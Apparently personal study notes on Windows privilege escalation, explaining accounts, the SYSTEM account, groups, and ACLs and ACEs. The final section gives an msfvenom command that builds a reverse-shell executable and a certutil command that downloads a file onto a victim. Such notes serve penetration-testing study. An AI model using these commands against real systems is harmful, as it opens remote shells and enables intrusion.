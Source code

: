 **Gaining Administrator or SYSTEM user shell.**

All privesc are examples of **access control violations**
*Access control* and *user permissions* are intrinsically linked.

When understanding privesc in windows we need to undestand *how Windows handles permissions* is very important.

# Permissions in Windows
## User accounts
Administrator is by default at the time of installation.
## Service accounts
- Service accounts are responsible to run services in windows like in linux ssh and all in passwd file
- They dont have interative shell which cannt sign in into windows
- **SYSTEM account is a default service account which has the highest privileges of any local account in Windows.**
- Other default service accounts include *NETWORK SERVICE* and *LOCAL SERVICE*

## Groups
User can belong to multiple groups and groups can have multiple users.
Groups allow for easier access control to resource.
**Regular groups:** Administrators, Users ( have set list of members. )
**Pseudo groups:** Authenticated Users ( have a dynamic list of members which changes based on certain interactions. )

## Resources
There are different types of resources/objects.
- Files/Directories
- Registry entries
- Services

## ACLs & ACEs
permissions to access certain resource in windows is controlled by the access control list (ACL) for the resource. 

Each ACL is made up of zero or more access control entries (ACEs)

Each **ACEs** defines  the relationship between a principal (i.e a user, group) and certain access right
![](https://i.imgur.com/WKjvSXE.png)


# Gen rev shell
Payload:
`msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`
Download in victim:
`certutil -urlcache http://xxx/file file`
